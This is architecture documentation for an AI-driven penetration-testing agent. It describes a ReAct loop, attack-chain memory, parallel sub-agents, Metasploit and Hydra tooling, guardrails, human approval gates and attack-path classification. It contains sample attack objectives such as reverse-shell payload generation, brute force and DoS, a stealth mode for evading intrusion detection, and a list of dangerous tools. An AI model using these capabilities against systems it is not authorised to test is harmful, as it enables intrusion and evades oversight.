

---

## Architecture Overview

This chapter shows how the moving parts of the platform fit together at the system level. Where the previous chapter described the agent's *internal* behaviour as a state machine, this one steps outside that machine and traces the data flow across the **five physical layers** the platform is built from: the Next.js frontend that the operator interacts with, the FastAPI backend that hosts the agent, the agent orchestrator itself with its checkpointer and streaming callback, the tool layer that brokers calls to the Kali sandbox, and the data layer that persists everything to Neo4j.

Three things are worth noticing in the diagram below. First, the **WebSocket connection between the frontend and the backend is bidirectional and persistent**, agent events stream live into the chat, and operator commands (guidance, stop, resume, approvals, tool confirmations) flow back the other way without page refreshes or polling. Second, the **MCP servers are independent containers**, `network_recon`, `nuclei`, `metasploit`, and `nmap` each run as separate FastMCP processes inside a single Kali Linux sandbox, so a misbehaving tool cannot affect the agent or the other tools. Third, the **same Neo4j instance hosts both the recon graph and EvoGraph**, the agent's persistent attack-chain memory writes bridge edges directly into the recon graph it queries, so structured intelligence accumulates without cross-database coordination.

The diagram is read top-to-bottom: the operator's request enters at the frontend, flows through the WebSocket layer, reaches the agent's LangGraph state machine, dispatches to either tool execution or graph queries, and the resulting state changes stream back to the operator via the same WebSocket connection that delivered the request.



---

## Core Components

This section gives a **plain-language walkthrough of every major capability** of the agent. Each subsection answers three questions: *what is this feature*, *how does it work in practice*, and *why does it matter for the operator*. Detailed schemas, diagrams, and configuration knobs live in the dedicated chapters that follow, links are provided. For a map of the source files implementing each of these features, see [Codebase Layout](#codebase-layout).

### The ReAct Pattern (Reasoning + Acting Loop)

ReAct is the foundational behavioural pattern of the agent. The acronym stands for **Reason + Act**, and it captures the simplest possible model of how a human expert works: read what's known, *think* about what to do next, *act* (run a tool), look at the result, *think* again. The agent repeats this loop autonomously, sometimes for dozens of iterations, until the objective is reached or the operator stops it.

In RedAmon's implementation, the loop has four characteristics that distinguish it from a basic "ask-LLM-then-run-tool" script. First, the LLM does not just emit a tool call, it emits a **structured decision** (`LLMDecision`) declaring what action it wants to take (`use_tool`, `plan_tools`, `deploy_fireteam`, `transition_phase`, `ask_user`, `complete`), along with reasoning, the tool to run, and an inline analysis of the *previous* tool's output that includes a **productivity verdict** classifying the call as `new_info`, `confirmation`, `no_progress`, `blocked`, or `duplicate`. Second, every iteration writes a `ChainStep` to the EvoGraph attack-chain memory, so the agent's history is structured and queryable rather than a flat log. Third, the loop is bounded, `MAX_ITERATIONS` (default 100) caps runaway sessions, and an **unproductive-streak detector** counts hard failures plus LLM-classified unproductive steps in a sliding window (default 3 of the last 6) and injects a pivot warning when the threshold trips. Crucially, the detector audits the LLM's verdict against actual state delta and auto-downgrades dishonest `new_info`/`confirmation` claims to `no_progress`, so identical fuzzing repeated 10 times cannot be hidden under a polite verdict. Fourth, the loop is **interruptible at every iteration**: the operator can stop, send guidance, or change skills mid-flight without breaking state.

For the operator, ReAct is what makes the agent feel *intelligent rather than scripted*. There is no fixed playbook. The agent decides at every step what tool best fits what it just learned, and the chat surface shows the reasoning explicitly so the operator can follow along, correct course, or take over.

### Deep Think (Strategic Reasoning Pre-Step)

Deep Think is a **second LLM call that runs *before* the normal `think` decision** when the agent reaches a moment of strategic significance. It produces a structured analysis, *Situation*, *Attack Vectors*, *Recommended Approach*, *Priority Order*, *Risks and Mitigations*, that gets injected into the very next ReAct iteration and stays attached to every subsequent prompt for the rest of the session.

It fires under exactly four conditions, in priority order: (1) on the first iteration of a new session, to establish an initial strategy; (2) immediately after a phase transition, to re-evaluate now that new tools are available; (3) when an **unproductive-streak** is detected, `UNPRODUCTIVE_STREAK_THRESHOLD` (default 3) of the last `PRODUCTIVITY_AUDIT_WINDOW` (default 6) steps came back as `no_progress` / `duplicate` / `blocked` or hit the keyword-failure heuristic, breaking the loop by re-strategizing instead of retrying; (4) on the LLM's own request, when it sets `need_deep_think=true` because it feels stuck. The call is wrapped in a try/except so a Deep Think failure can never block the agent, the worst case is a logged warning and a session that continues without the strategic frame.

The advantage of having Deep Think as a *separate* call rather than asking the regular `think` to "think harder" is **focus**. The Deep Think prompt does not have to also pick a tool, parse a previous output, or update a TODO list, its only job is strategic reasoning. The result is rendered as markdown and surfaces in the chat as a distinct purple "Deep Think" card so the operator can see *why* the agent paused to re-strategize. Full details: [Deep Think chapter](#deep-think-strategic-reasoning-pre-step).

### Productivity Verdict & Unproductive-Streak Loop Detector

Every tool output is classified by the LLM into one of five **productivity verdicts**, `new_info`, `confirmation`, `no_progress`, `blocked`, `duplicate`, emitted in the same `output_analysis` JSON object as the inline analysis. The verdict is required, not optional, and the schema forces the model to cite specific evidence (`what_was_new`) and a rationale before accepting a non-`no_progress` claim. The orchestrator then performs a small **honesty audit** on each verdict: it cross-checks `new_information_gained=true` against the actual state delta for the same iteration (did `chain_findings` grow? was `extracted_info` populated? was an `actionable_finding` produced?). If the LLM claims new information but nothing actually changed, the verdict is auto-downgraded to `no_progress` and the downgrade reason is surfaced in the next prompt so the model sees its own dishonest claim being corrected.

The loop detector built on this signal counts unproductive steps in a sliding window. When `UNPRODUCTIVE_STREAK_THRESHOLD` of the last `PRODUCTIVITY_AUDIT_WINDOW` steps are unproductive (LLM verdict OR keyword-failure heuristic), two things happen at once: Deep Think is triggered with a `"Unproductive streak detected"` reason, and a **same-pattern fingerprint audit** block is appended to the next system prompt, showing the model up to N recent calls that share the *same normalized tool-and-args pattern* with their truncated output fingerprints (sha256 over a normalized response body). When three of the last four calls share fingerprint `a7c3` and produced no finding, claiming "confirmation" again becomes visibly dishonest and the model is nudged toward `duplicate` / `no_progress` instead. The same pipeline runs in the wave path (one verdict per wave) and in fireteam member subgraphs.

The advantage over the legacy keyword-only failure detector is **coverage**. The keyword check only fired when an output contained `"failed"` / `"error"` / `"exploit completed, but no session"`. It missed every *successful but useless* call: HTTP 200 with an empty body, identical fuzzing iterations against a stable 404, repeated WAF-blocked requests that return polite HTML, identical CVE probes that always return the same negative result. The productivity verdict catches all of those because the model has to *cite* what was new and the orchestrator *audits* the citation. Full details: [Productivity Verdict & Loop Detector chapter](#productivity-verdict--unproductive-streak-loop-detector-1).

### EvoGraph (Persistent Attack Chain Memory)

EvoGraph is the agent's **structured long-term memory**, persisted in Neo4j alongside the recon graph. While the recon graph captures *what exists* on the target's attack surface (domains, IPs, ports, services, vulnerabilities), EvoGraph captures *what the agent did about it*, every tool execution, every discovery, every failure, every strategic decision, across the entire attack lifecycle and across multiple sessions.

The model has five node types: `AttackChain` (the root, one per session), `ChainStep` (each tool execution with inputs, outputs, and analysis), `ChainFinding` (intelligence discovered during a step, classified by severity), `ChainDecision` (strategic choices like phase transitions or aborts), and `ChainFailure` (structured records of dead ends with `lesson_learned` text). Each of these is connected back to the recon graph via "bridge relationships", for example, a `ChainFinding` of type `vulnerability_confirmed` automatically gets a `FOUND_ON` edge to the relevant `IP` node and a `FINDING_RELATES_CVE` edge to the `CVE` node. The bridges are populated both from explicit fields the LLM emits and from regex-scanning the evidence prose, so even when the LLM forgets to fill `related_cves` the bridges still get drawn.

The advantage is twofold. **Within a session**, the agent's prompt no longer carries a flat wall-of-text execution trace, instead it gets a deduplicated, severity-sorted Findings section, a Failed-Attempts section with lessons, and a Decisions section, so the model spends its tokens on signal rather than scrolling. **Across sessions**, the next time the operator works on the same project, the agent loads the prior chains via `query_prior_chains()` and starts already knowing what was tried, what worked, and what failed. This turns the agent from a stateless tool runner into a **knowledge-accumulating system** that builds on prior work. Full details: [EvoGraph chapter](#evograph--evolutive-attack-chain-graph).

### Recon Graph & `query_graph` (Persistent Project Intelligence)

Before the agent ever runs, RedAmon's deterministic **Recon Pipeline** has typically already mapped the target's attack surface and persisted it as a structured graph in Neo4j: domains, subdomains, IPs, ports, services, technologies, certificates, CVEs, endpoints, and the relationships that tie them together. This is the **Recon Graph**, the project's accumulated, queryable intelligence about *what exists* on the target. It is a sibling of EvoGraph, lives in the same Neo4j instance, and is tenant-scoped (`user_id`, `project_id`) so projects never leak into each other.

The agent does not need to rediscover any of this. It has a single tool, `query_graph`, that lets it ask the Recon Graph natural-language questions ("what ports are open on 10.0.0.5?", "which subdomains run nginx?", "any CVEs known on the discovered services?") and receive structured answers. Internally `Neo4jToolManager` calls a translator LLM to turn the question into Cypher, the manager rewrites the Cypher to inject the tenant filter (the agent never gets to write that part), executes against Neo4j, and on syntax errors retries up to `CYPHER_MAX_RETRIES` (default 3) with the error message attached as feedback. `query_graph` is allowed in every phase, reading what's already known is always safe.

The advantage is a clean **separation between deterministic discovery and adaptive exploitation**. The Recon Pipeline runs without an LLM in the loop, fast, cheap, repeatable, parallelizable across tools (httpx, naabu, nuclei, katana, gvm, github-hunt, trufflehog). The agent runs *after* and only when LLM reasoning actually adds value: deciding what to do with the intelligence, which CVE to chase, which credential to test, which attack path to try. A session that opens with three or four `query_graph` cards before any active scan is the agent doing exactly what it should, read the existing intelligence first, run an active tool only when re-discovery is genuinely warranted (recon is stale, scope changed, target was offline). Full details: [Recon Graph & query_graph chapter](#recon-graph--query_graph-persistent-project-intelligence).

### Fireteam (Parallel Specialist Sub-Agents)

A **Fireteam** is how the root agent fans out into N specialist sub-agents that work on independent angles of the same objective in parallel, then merges their findings back. It is not a separate process or container, it is an `asyncio.gather` fan-out inside the same event loop, the same LangGraph runtime, the same WebSocket connection.

When the root's `think` decides `action=deploy_fireteam`, the deploy node spawns one async task per member, each running a stripped-down 5-node ReAct subgraph (`think` / `execute_tool` / `execute_plan` / `await_confirmation` / `complete`) against its own `FireteamMemberState`. Members run concurrently and interleave naturally on the event loop. Each member writes attributed `ChainStep` and `ChainFinding` rows to EvoGraph in real time, so the graph DB knows which specialist produced which finding. Dangerous-tool approvals are handled **per-member, in parallel, in-place**: a member parks on its own `asyncio.Event` and the operator decides on each panel independently, N members can be awaiting decisions simultaneously without serializing.

The advantage over a single agent doing the same work sequentially is **speed and focus**. A single agent investigating an auth surface, a route map, and a security-header posture would do them one at a time and accumulate context-switch cost in its prompt. Three Fireteam members do them in parallel, each with a focused prompt scoped to their mission, and the root only sees the consolidated findings at the end. The operator sees one Fireteam card on screen with three always-visible specialist panels, no modal queues, no detached cards, no sequential gating. Full details: [Fireteam chapter](#fireteam--parallel-specialist-sub-agents).

### Skills System (Built-In, User, Chat)

Skills are **reusable expert playbooks** the agent loads into its prompt to specialize its behaviour for a given attack technique. Three families coexist. **Built-in attack skills** (CVE exploit, brute force, SQL injection, XSS, phishing, DoS) are hard-coded prompt blocks that ship with the platform; the attack-path classifier picks one when it analyzes a new objective. **User attack skills** are markdown files under `agentic/skills/` (with categories like `vulnerabilities/`, `network/`, `cloud/`, `tooling/`); they are discovered at startup by `skill_loader.py`, classified by the LLM as `user_skill:<id>`, and injected as `## User Attack Skill` blocks. **Chat skills** are on-demand reference docs under `agentic/community-skills/` that the operator can inject mid-session via `/skill <name>` without changing the agent's classification.

All three families share the same markdown-with-YAML-frontmatter format, so anyone, engineer or pentester, can write a new skill without touching Python. A skill file declares a name and description in frontmatter; the body is plain prose with whatever instructions, payload examples, and command snippets the author wants the agent to internalize. Up to 5 skills can be active simultaneously per session.

The advantage of the skill system is **extensibility without redeployment**. A red team encountering a new vulnerability class can write a skill markdown in 20 minutes and have the agent specialize for that class on the next session, no code change, no container rebuild, no prompt refactor. The classifier picks the right skill automatically based on the operator's natural-language objective. Full details: [Skills System chapter](#skills-system-built-in-user-chat).

### Tool Confirmation Gate (Human-in-the-Loop Safety)

The Tool Confirmation Gate is a **per-tool human approval checkpoint** that pauses the agent before executing anything in a hard-coded `DANGEROUS_TOOLS` set (nmap, nuclei, metasploit, hydra, kali_shell, code execution, browser automation, etc.). It is distinct from the phase-level approval gates that sit between informational / exploitation / post-exploitation, it operates at the *individual tool invocation* level, after the agent has already chosen to enter exploitation.

When the agent decides `use_tool` (single mode) or `plan_tools` (plan mode) and any tool in the request is dangerous, the graph routes to `await_tool_confirmation`, a node whose entire job is to halt the graph and emit a `tool_confirmation_request` event. The frontend renders an inline Allow/Deny card directly on the tool's timeline entry. The operator can approve, modify the tool args, or reject (which routes back to `think` with a rejection note so the agent picks a different approach). Fireteam members use a separate per-member channel so N specialists can be awaiting confirmation in parallel without serializing.

The advantage is **operator confidence**. A pentest agent that runs Metasploit autonomously is genuinely dangerous; a pentest agent that *asks first* every time and shows exactly what it's about to run is a safety-vetted assistant. The same machinery enables **disable-with-warning** mode for fully autonomous engagements, with a visible orange triangle in the chat header so the operator never forgets they're running unattended. Full details: [Tool Confirmation Gate chapter](#tool-confirmation-gate).

### Output Analysis (Inline)

Every think iteration analyses the *previous* tool's output **inline** with its decision, in the same JSON object, no separate analysis call. The structured output (`OutputAnalysisInline`) carries five fields the LLM populates: an interpretation paragraph, an `extracted_info` block of structured target data (ports, services, technologies, vulnerabilities, credentials, sessions), a list of `actionable_findings`, a list of `recommended_next_steps`, and an `exploit_succeeded` boolean with optional details.

This is the agent's primary **signal-extraction loop**. The extracted target info is merged into the persistent `target_info` (lists extend-and-dedupe; scalars fill only when missing) so the next prompt sees an updated worldview. Actionable findings flow into `chain_findings_memory` and trigger writes to EvoGraph with bridge edges to relevant CVEs, ports, and endpoints. Recommended next steps inform the TODO list. Exploit-success detection drives a special `ChainFinding(finding_type="exploit_success")` that anchors the rest of the post-exploitation phase.

The advantage of bundling analysis into the next think rather than splitting it into a dedicated node is **latency and cost**. A separate analyzer would double the LLM round-trips per tool execution and would need most of the same context anyway. Bundling adds tokens but no extra round-trip, and keeps the agent's reasoning unified. The trade-off is that the *last* tool of any session needs one more think pass to close out, that pass is the same one that emits `action=complete`. Full details: [Output Analysis chapter](#output-analysis-inline).

### Three-Layer Guardrails (Hard, Soft, Scope)

The agent enforces **three layered guardrails** on every target it might touch, each with a distinct purpose and a distinct override behaviour. The **Hard guardrail** is a deterministic regex + 200-domain set that blocks government, military, education, and intergovernmental organization domains (.gov, .mil, .edu, .int, country variants like .gov.uk and .ac.jp, plus exact matches for UN, NATO, EU agencies, World Bank, IMF, etc.). It is **non-disableable**, the safety floor of the entire platform, and is mirrored byte-for-byte in TypeScript so the frontend can pre-flight a target before it ever reaches the agent. The **Soft guardrail** is an LLM-based classifier that catches well-known commercial sites (tech giants, cloud providers, social media, banks, news/media) that a deterministic list cannot enumerate; it is configurable, includes auto-allow rules for private IPs and unresolvable hostnames, and supports an IP-mode that resolves public IPs to hostnames via reverse DNS before judging. The **Scope reminder** is a prompt-level injection that appears on every think iteration: "you must only operate against the project's configured target."

The three layers are **deliberately redundant**. Hard catches what soft might miss; soft catches what hard cannot enumerate; scope reminds the LLM at every step regardless of what the operator typed in chat. Even if a malicious operator deliberately disables the soft layer to scan a non-authorized target, the hard layer still blocks government/military domains, and even if neither blocks the target, the scope reminder pushes the LLM toward refusing prompts that try to redirect it.

The advantage is **defense in depth without losing flexibility**. The operator can freely scan internal labs, vulnerable-by-design targets, and obscure customer infrastructure, the soft guardrail is intentionally lenient ("when in doubt, allow"). But the platform cannot be weaponized against critical public infrastructure no matter how the project is configured. Full details: [Guardrails chapter](#guardrails-hard-soft-scope).

### Rules of Engagement (RoE)

The RoE system lets a project encode a **complete pentest engagement contract**, client metadata, time windows, scope exclusions, technique gating, rate limits, severity caps, sensitive-data handling rules, compliance frameworks, and have the agent enforce it both via prompt injection and via code-level gates. When `ROE_ENABLED=true`, ~35 `ROE_*` settings shape the agent's behaviour. The engagement window precomputes warnings ("engagement ended 3 days ago") that are injected into the prompt; time windows restrict scans to allowed days and hours; excluded hosts are listed in the prompt with the documented reason for each; technique gates (`ROE_ALLOW_DOS`, `ROE_ALLOW_SOCIAL_ENGINEERING`, etc.) strip the corresponding attack skill from the action vocabulary entirely.

The two-layer enforcement, prompt-level *and* code-level, is intentional. The **prompt layer** lets the LLM reason about the contract: it sees client name, contact, exclusions, deadlines, and uses that context when planning, refusing, or escalating. The **code layer** is the safety net: a misbehaving or jailbroken LLM cannot bypass `get_phase_tools()` filtering or the phase-transition severity cap, because those gates fire before any LLM decision reaches a tool executor.

The advantage is that an engagement's full operational envelope lives in **one place** (the project settings) instead of being scattered across operator memory, slack messages, and PDF contracts. A new operator picking up a session sees the same constraints as the original engagement lead, automatically. Compliance frameworks (PCI-DSS, HIPAA, SOC2, ISO27001) and data-retention policies surface in the prompt and in the final report narratives. Full details: [Rules of Engagement chapter](#rules-of-engagement-roe).

### MCP Tool Integration (Phase-Based Tool Access)

The agent's tools are not Python functions that ship inside the agent container, they are exposed by **separate Docker containers** speaking the [Model Context Protocol (MCP)](https://modelcontextprotocol.io/), a JSON-RPC standard for plugging tools into language-model agents. Four MCP servers run inside a single Kali Linux sandbox: `network_recon` (curl, naabu, kali_shell, code execution), `nuclei` (CVE templates), `metasploit` (the full msfconsole), and `nmap` (deep scanning + NSE). The agent's `MCPToolsManager` maintains streaming HTTP connections to each, with retry-with-backoff to handle container startup races.

Tools are gated by **phase**. The `TOOL_PHASE_MAP` setting (database-driven) declares which tools are allowed in `informational`, `exploitation`, and `post_exploitation`. The `PhaseAwareToolExecutor` enforces this at the executor level, even if the LLM tries to call a tool in the wrong phase, the call is rejected before it reaches the MCP server. A separate `tool_registry.py` is the *single source of truth* for tool metadata (names, purposes, argument hints, dangerous flag), and the prompt builder generates the tools-available section dynamically from this registry so the LLM never sees a tool that isn't actually allowed in the current phase.

The advantage of this architecture is **isolation and substitutability**. The agent container is small and stateless; the tools live in a hardened Kali sandbox with their own filesystem, their own packages, and their own crash domain. A misbehaving tool cannot crash the agent. Adding a new tool means writing a new MCP server (or extending an existing one) and updating one registry entry, the orchestrator code is untouched. Full details: [Tool Execution & MCP Integration chapter](#tool-execution--mcp-integration).

### Wave Execution (Parallel Tool Plans)

When the LLM identifies two or more **independent** tools that don't depend on each other's outputs, it can emit `action=plan_tools` instead of `action=use_tool`. The orchestrator routes to `execute_plan`, which runs all the tools concurrently via `asyncio.gather`, streams each tool's output into its own card on a grouped Wave panel in the UI, then merges all outputs back into the next think for combined analysis.

This is distinct from Fireteam: Wave Execution is **one agent running multiple tools in parallel**, while Fireteam is **multiple agents each running their own ReAct loops in parallel**. Use Wave when the work is just N parallel tool calls with a shared analysis ("scan ports and query the graph at the same time"). Use Fireteam when each branch needs its own multi-step reasoning ("auth-surface specialist plus header-policy specialist, each thinking iteratively"). Tool mutex groups (e.g. all metasploit tools share a singleton group) prevent two concurrent steps from racing on shared sandbox state.

The advantage is wall-clock time. A 5-tool informational sweep that would take 5 minutes sequential can finish in 1 minute when the tools are independent. The frontend renders the wave as a single grouped card with each tool's output streaming live and a consolidated analysis section underneath when all tools complete. Full details: see the Wave Execution subsection in the [WebSocket Streaming chapter](#wave-execution-parallel-tool-plans).

### Stealth Mode

When `STEALTH_MODE=true`, a dedicated rules block (`STEALTH_MODE_RULES`) is **prepended to the system prompt with the highest priority**, it sits before everything else, including the base ReAct prompt. The block instructs the agent to prefer slow scan timings (`-T1` / `-T2` for nmap, throttled rates for naabu), avoid loud detection signals, spread requests over time, and skip techniques that trip standard IDS signatures.

Stealth mode is **purely prompt-level**, there is no separate executor that throttles tools. The LLM is responsible for choosing stealth-appropriate arguments. This is a deliberate design choice: stealth requires *context-sensitive* judgment (e.g. `--max-rate 50` against this hardened target but `--max-rate 200` against a different less-monitored one) that hard limits would over-constrain.

The advantage is **adversary-emulation realism**. Red-team engagements that need to evade detection benefit from an agent that thinks like a stealth operator from the first iteration, instead of one that runs aggressive defaults and gets caught. Full details: [Stealth Mode chapter](#stealth-mode).

### WebSocket Streaming (Real-Time UI)

Every internal event the agent produces, thinking, tool execution, output chunks, phase transitions, approval requests, Deep Think analyses, fireteam member status, file generation, is streamed over a single bidirectional WebSocket to the browser in real time. The transport carries ~25 outbound event types and ~10 inbound message types, all defined as enums in `websocket_api.py`. The `StreamingCallback` interface decouples node logic from the transport: nodes call `callback.on_thinking(...)` or `callback.on_tool_complete(...)` and the WebSocket layer handles framing, persistence (to the `ChatMessage` table), deduplication, and connection-replacement edge cases.

The streaming layer also serves as the **command channel** in the opposite direction. The operator can interrupt the agent at any time without touching the chat input: stop the whole session (`stop`), cancel one running tool (`tool_stop` with optional `wave_id` / `step_index`), inject a chat skill (`skill_inject`), send mid-flight steering (`guidance`), approve or reject a pending dangerous tool (`tool_confirmation` or `fireteam_member_confirmation`), answer a question (`answer`), or approve a phase transition (`approval`). Each command is routed to a corresponding handler in `WebSocketManager` that updates state and resumes the right LangGraph node.

The advantage is **liveness + control without polling**. The operator sees the agent's reasoning unfold token by token, can interject at any moment, and never has to refresh a page. Persistence to `ChatMessage` rows means the same stream can be replayed when the browser reconnects after a disconnection or when a different operator picks up a session. Full details: [WebSocket Streaming chapter](#websocket-streaming).

### Stop / Resume / Per-Tool Stop / Guidance

Four distinct interruption modes share the same underlying machinery. **Session Stop** (the red square button) cancels the active LangGraph `astream` task; the `AsyncPostgresSaver` has already checkpointed state at the last node boundary, so **Session Resume** (the green play button) calls `resume_execution_with_streaming()` which re-invokes the graph from the checkpoint with empty input, the agent picks up exactly where it stopped. **Per-Tool Stop** cancels a single running tool (looked up by composite key `session|wave|step|tool`) without halting the agent; the cancelled tool reports failure and the next think reasons about an alternative. **Guidance** lets the operator type a steering message while the agent is working; it lands in the connection's `guidance_queue` and is drained by the next `think` iteration as a `## USER GUIDANCE` block in the system prompt.

These four modes cover the full spectrum of operator intervention without any of them blocking the others. The chat input adapts based on agent state, *idle* sends a query, *loading* sends guidance, *stopped* shows a resume button, *awaiting approval* shows a dialog, *awaiting tool confirmation* surfaces inline Allow/Deny buttons.

The advantage is **operator agency at every moment**. A long autonomous session is never a "wait and see what happens" experience, the operator can correct course, kill a slow tool, hand off to a different operator, or pause for the day and resume tomorrow. None of these operations corrupt state or lose work.

### Token Accounting & Cost Tracking

Every LLM call in the agentic pipeline contributes to a **per-session token tally** that the frontend surfaces as cost badges. The agent tracks `input_tokens_used`, `output_tokens_used`, and a cumulative `tokens_used` total, plus per-iteration deltas (`_input_tokens_this_turn`, `_output_tokens_this_turn`) reset every `think` so the UI can show step-level cost. Each fireteam member tracks its own four counters independently, so the parent can roll them up post-wave for display without auto-incrementing its own totals, the operator sees parent cost vs. fireteam cost as a clear split. Deep Think tokens are folded into the iteration that triggered them.

The accounting is **purely observational**. There is no enforcement; the iteration budget (`MAX_ITERATIONS`, default 100) is the sole hard cap. Token cost in dollars is computed by the webapp from the configured `OPENAI_MODEL` rate × the token counts.

The advantage is **cost visibility without surprise**. An operator can see at a glance how much an engagement is costing, identify which sessions or fireteam waves are expensive, and tune iteration budgets accordingly. Full details: [Token Accounting chapter](#token-accounting--cost-tracking).

### Knowledge Base Integration

When the agent calls `web_search` (or any retrieval tool), the request is routed through a **federated KB-first pipeline**: a curated infosec corpus is queried first via vector embeddings, and only when zero hits clear the score threshold does the request fall through to live web search. The KB is pluggable per project, `KB_ENABLED_SOURCES` lets operators restrict to a specific allowlist (e.g. only MITRE ATT&CK, OWASP, CISA KEV), and supports MMR (Maximal Marginal Relevance) reranking for diversity, source-specific ranking boosts, and overfetch factors that fetch extra chunks before MMR truncation.

The advantage is **trustworthy citations and reduced hallucination**. A pentest agent that pulls "exploit advice" from random blog posts is unreliable; a pentest agent that pulls from a vetted corpus of CISA KEV entries, MITRE technique pages, and OWASP cheatsheets gives the operator a defensible source for every recommendation. The web fallback ensures coverage for novel CVEs and brand-new tooling that the KB has not yet indexed. Full details: [Knowledge Base Integration chapter](#knowledge-base-integration).

### Report Summarizer (Narrative Synthesis)

The Report Summarizer is a **separate post-engagement LLM module** that turns the structured pentest output (findings, CVEs, exploits, attack chains, target metadata) into professional narrative prose, six sections covering executive summary, scope, risk distribution, findings detail, attack-surface inventory, and prioritized remediations. Each section is multi-paragraph prose without markdown bullets or headings, sized appropriately for stakeholder reading.

It is intentionally **decoupled from the orchestrator**. The orchestrator's job ends at `task_complete`; the report run can happen hours or days later, against frozen data. The summarizer pulls all `ChainFinding` rows, the recon graph snapshot, CISA KEV / EPSS scoring, RoE settings (for the scope narrative), and project metadata (client name, contact, engagement window) and produces a polished report that a customer-facing operator can review, edit, and export to PDF.

The advantage is **separation of concerns**. The agent is optimised for live decision-making under time pressure; the summarizer is optimised for narrative quality and tone. Coupling them would force the orchestrator to keep narrative-prompt baggage live during pentests and would degrade both. Full details: [Report Summarizer chapter](#report-summarizer-narrative-synthesis).

### Companion Orchestrators (Cypherfix Triage + Codefix)

Two **sibling agents** live alongside the main pentest orchestrator: **Cypherfix Triage** clusters and scores findings post-engagement (drops false positives, ranks by impact, generates remediation handles), and **Cypherfix Codefix** edits source code in a GitHub repository to actually patch the identified vulnerabilities. Codefix uses a Claude-Code-style toolkit (`github_glob`, `github_grep`, `github_read`, `github_edit`, `github_write`, `github_bash`, `github_symbols`, `github_find_definition`, `github_find_references`, `github_repo_map`); mutating tools are serialised via a `SEQUENTIAL_TOOLS` set while read-only tools run concurrently.

Both share infrastructure with the pentest agent, logging, project_settings, the `key_rotation` round-robin API key pool, the same WebSocket transport, but each has its own `state.py`, `prompts/`, and `orchestrator.py`. They are separate processes, separate ReAct loops, separate state shapes.

The advantage of three orchestrators instead of one is that each can specialise. Pentest looks for weaknesses, Triage ranks them, Codefix patches them, three very different success criteria. Bundling them would force one giant prompt to do all three jobs and one giant state to carry data none of the steps actually need at any given moment. Full details: [Companion Orchestrators chapter](#companion-orchestrators-cypherfix).

### Multi-Tenancy & Phase Gating

Every operation in the agent is **tenant-scoped**. A `(user_id, project_id, session_id)` triple is captured at request boundary into a `ContextVar` that propagates through all async work, including fireteam member tasks (the ContextVar is captured at `asyncio.create_task` time so it survives the fan-out). Neo4j queries are auto-filtered: even when the LLM generates a Cypher query that doesn't mention the tenant, the `Neo4jToolManager` injects a `WHERE n.user_id = ... AND n.project_id = ...` clause before execution. LangGraph checkpoints are keyed by `session_id`, so two sessions on the same project never see each other's state.

Phase gating layers on top. The agent operates in three phases, `informational` (read-only recon), `exploitation` (active attack), `post_exploitation` (working with established sessions), and tools are mapped to phases via `TOOL_PHASE_MAP`. Phase transitions are gated by approval (`REQUIRE_APPROVAL_FOR_EXPLOITATION` / `REQUIRE_APPROVAL_FOR_POST_EXPLOITATION`); downgrades to informational auto-approve. The `await_approval` node halts the graph until the operator decides.

The advantage is **safe isolation between operators and projects** combined with **safe progression through escalating attack stages**. No matter how complex an engagement gets, the agent cannot accidentally read another project's data, and no matter how confidently the LLM wants to exploit, it cannot enter an active attack phase without an explicit human nod. Full details: [Security & Multi-Tenancy chapter](#security--multi-tenancy).

---

## Attack Path Classification

When a new objective is detected, the system uses an LLM-based classifier to determine the **attack path type** and **required phase** before execution begins. This drives dynamic tool routing throughout the session.

### Attack Path Types

| Type | Description | Example Objective |
|------|-------------|-------------------|
| `cve_exploit` | CVE-based exploitation using known vulnerabilities | "Exploit CVE-2021-41773 on 192.168.1.100" |
| `sql_injection` | SQL injection testing with SQLMap, WAF bypass, blind injection, OOB DNS exfiltration | "Try SQL injection on the login form" |
| `brute_force_credential_guess` | Hydra brute force / credential attacks against services | "Try SSH brute force on 192.168.1.100" |
| `phishing_social_engineering` | Payload generation, document crafting, and email delivery | "Generate a reverse shell payload for Windows" |
| `denial_of_service` | Availability testing via flooding, resource exhaustion, crash vectors | "Test DoS on the web server" |
| `<term>-unclassified` | Fallback for techniques without a specialized workflow | "Test for SSRF on the API" → `ssrf-unclassified` |

### Classification Flow

The classifier itself is a small three-step pipeline. The branching that follows, six possible attack paths, each with its own tool workflow, is shown as a table below the diagram so the per-path detail stays readable.

